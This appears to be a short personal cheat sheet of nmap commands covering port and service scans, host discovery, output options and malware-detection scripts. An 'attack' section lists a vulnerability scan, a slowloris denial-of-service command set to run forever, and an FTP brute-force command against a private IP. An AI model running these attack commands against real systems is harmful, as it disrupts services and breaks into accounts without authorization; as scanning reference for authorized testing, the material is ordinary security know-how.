 nmap -T0 > T5 [+t > -t]

nmap -sV version detection
sudo nmap -n -PN -sT -sU -p- scanme.nmap.org
sudo nmap -sS scanme.nmap.org
sudo nmap -PN -p 80 -sV
nmap -v 192.168.0.101

sudo nmap -PN xxx.xxx.xxx.xxx-yyy
sudo nmap -sP xxx.xxx.xxx.xxx-yyy
nmap 192.168.0.*

nmap -iL nmaphostlist.txt
nmap -oN output.txt securitytrails.com

nmap -A -T4 cloudflare.com
nmap -sV localhost
nmap -sU localhost
nmap -sT localhost
nmap -sn 192.168.0.239
## attack
nmap -Pn --script vuln 192.168.1.105
[[DOS]] = nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
[[BFA]] = nmap nmap --script ftp-brute -p 21 192.168.1.105

## malware check
nmap -sV --script=http-malware-host 192.168.1.105
nmap -p80 --script http-google-malware infectedsite.com